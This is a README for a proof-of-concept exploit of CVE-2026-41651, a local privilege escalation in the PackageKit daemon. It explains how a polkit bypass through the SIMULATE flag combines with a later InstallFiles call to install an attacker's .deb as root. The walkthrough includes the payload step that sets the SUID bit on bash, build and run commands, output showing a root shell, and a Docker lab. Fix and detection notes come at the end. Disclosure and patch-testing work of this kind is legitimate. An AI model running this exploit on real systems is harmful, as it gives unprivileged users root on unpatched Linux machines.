

# Pack2TheRoot — CVE-2026-41651

TOCTOU race in PackageKit's transaction handler. Any local unprivileged user can install arbitrary packages as root with no authentication.


---

## Overview

| Field | Value |
|-------|-------|
| **CVE** | CVE-2026-41651 |
| **Component** | PackageKit daemon (`packagekitd`) |
| **Affected versions** | 1.0.2 – 1.3.4 |
| **Fixed in** | 1.3.5 |
| **Impact** | Local Privilege Escalation → root |
| **Auth required** | None |
| **User interaction** | None |
| **Tested on** | Ubuntu 24.04, Debian 12 |

---

## Demo


## Vulnerability

Three bugs in `src/pk-transaction.c` chain together to create a TOCTOU window between authorization and execution.

### Bug 1 — Unconditional flag overwrite (line 4036)

`InstallFiles()` unconditionally overwrites `cached_transaction_flags` and `cached_full_paths` with no state check:

```c
transaction->cached_transaction_flags = transaction_flags;
transaction->cached_full_paths = g_strdupv (full_paths);
```

### Bug 2 — Silent state-transition rejection (lines 876–881)

`pk_transaction_set_state()` silently drops backward transitions. The flags are already overwritten, but the state stays as-is:

```c
if (transaction->state != PK_TRANSACTION_STATE_UNKNOWN &&
    transaction->state > state) {
    g_warning ("cannot set %s, as already %s", ...);
    return;
}
```

### Bug 3 — Late flag read (lines 2273–2277)

`pk_transaction_run()` reads the cached flags at dispatch time (from the GLib idle), not at authorization time:

```c
case PK_ROLE_ENUM_INSTALL_FILES:
    pk_backend_install_files (transaction->backend,
                              transaction->job,
                              transaction->cached_transaction_flags,
                              transaction->cached_full_paths);
    break;
```

### Bonus — SIMULATE bypasses polkit (lines 2893–2900)

Setting `PK_TRANSACTION_FLAG_SIMULATE` (bit 2, value `0x4`) skips the polkit check entirely:

```c
if (pk_bitfield_contain (transaction->cached_transaction_flags,
                         PK_TRANSACTION_FLAG_ENUM_SIMULATE) || ...) {
    pk_transaction_set_state (transaction, PK_TRANSACTION_STATE_READY);
    return TRUE;
}
```

---

## Exploit Flow

```
Attacker                         packagekitd
   │                                  │
   │  CreateTransaction()             │
   │─────────────────────────────────►│  state = NEW
   │◄─────────────────────────────────│
   │                                  │
   │  InstallFiles(SIMULATE, dummy)   │
   │─────────────────────────────────►│  SIMULATE → polkit skipped
   │◄─────────────────────────────────│  state = READY
   │                                  │  g_idle_add(run_idle_cb) ← queued
   │                                  │
   │  InstallFiles(NONE, payload)     │  [BUG 1] flags + paths overwritten
   │─────────────────────────────────►│  [BUG 2] set_state(WAITING_FOR_AUTH)
   │◄─────────────────────────────────│          → silently rejected
   │                                  │          state stays READY
   │                                  │
   │                      [idle fires]│
   │                                  │  pk_transaction_run()
   │                                  │  [BUG 3] reads NONE + payload
   │                                  │  → dpkg installs payload as root
   │                                  │  → postinst: chmod +s /bin/bash
   │                                  │
   │  execv("/tmp/.suid_bash -p")     │
   │─────────────────────────────────►│
   │              euid=0(root)        │
```

Both `InstallFiles` calls are sent as fire-and-forget async D-Bus calls before the client's main loop iterates. This guarantees both messages land in the server socket before the GLib idle can fire — no race to win.

polkitd eventually returns `NOT_AUTHORIZED` for the second call, but by then APT has already dispatched the installation. The error is expected and harmless.

---

## Build

```bash
sudo apt install libglib2.0-dev
make
```

No other dependencies — the `.deb` packages are built in pure C at runtime.

---

## Usage

```bash
./cve-2026-41651
```

```
═══════════════════════════════════════════════════
 CVE-2026-41651 — PackageKit TOCTOU LPE
═══════════════════════════════════════════════════
[*] Building packages (pure C)...
[+] dummy   : /tmp/.pk-dummy-47.deb
[+] payload : /tmp/.pk-payload-47.deb
[*] Transaction : /1_acdcacbe
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[*] Waiting for dispatch (30 s max)...
[!] PK error 48: Failed to obtain authentication.
[*] Finished (exit=2, 10 ms)
[*] Polling for payload (120 s max)...

[+] SUCCESS — SUID bash at t+200ms
uid=1001(victim) gid=1001(victim) euid=0(root) groups=1001(victim)

.suid_bash-5.2# id
uid=1001(victim) gid=1001(victim) euid=0(root) groups=1001(victim)
```

`euid=0` — all privilege checks in the kernel use the effective UID.

---

## Docker

```bash
docker build -t cve-2026-41651 .
docker run -it --rm cve-2026-41651
```

The image builds PackageKit 1.3.4 from source (commit `2149735`, last vulnerable), starts dbus + polkitd + packagekitd, then runs the exploit as an unprivileged user.

**Note on the g_assert:** the Docker image patches out a `g_assert (!transaction->emitted_finished)` guard in `pk-transaction.c`. On a real unpatched system this assert fires when APT's thread tries to emit `Finished` after polkitd has already done so, crashing the daemon via SIGABRT. The SUID bash is already on disk by that point, so the privilege escalation succeeds — the crash is a side-effect DoS. packagekitd restarts on the next D-Bus activation.

---

## Detection

On PackageKit ≥ 1.3.5 the second call is rejected:

```
[-] Target is PATCHED (PackageKit >= 1.3.5)
```

The fix adds a state guard in `pk_transaction_method_call()`:

```c
if (transaction->state != PK_TRANSACTION_STATE_NEW) {
    g_dbus_method_invocation_return_error (invocation,
        PK_TRANSACTION_ERROR, PK_TRANSACTION_ERROR_INVALID_STATE, ...);
    return;
}
```

```bash
pkcon --version
journalctl -u packagekit --since '5 min ago'
```

---

## References

- [NVD — CVE-2026-41651](https://nvd.nist.gov/vuln/detail/CVE-2026-41651)
- [GitHub Advisory — GHSA-f55j-vvr9-69xv](https://github.com/PackageKit/PackageKit/security/advisories/GHSA-f55j-vvr9-69xv)
- [Telekom Security — pack2theroot](https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html)
- [Fix commit — 76cfb675](https://github.com/PackageKit/PackageKit/commit/76cfb675fb31acc3ad5595d4380bfff56d2a8697)
- [OSS-Security announcement](https://lists.freedesktop.org/archives/packagekit/2026-April/026513.html)
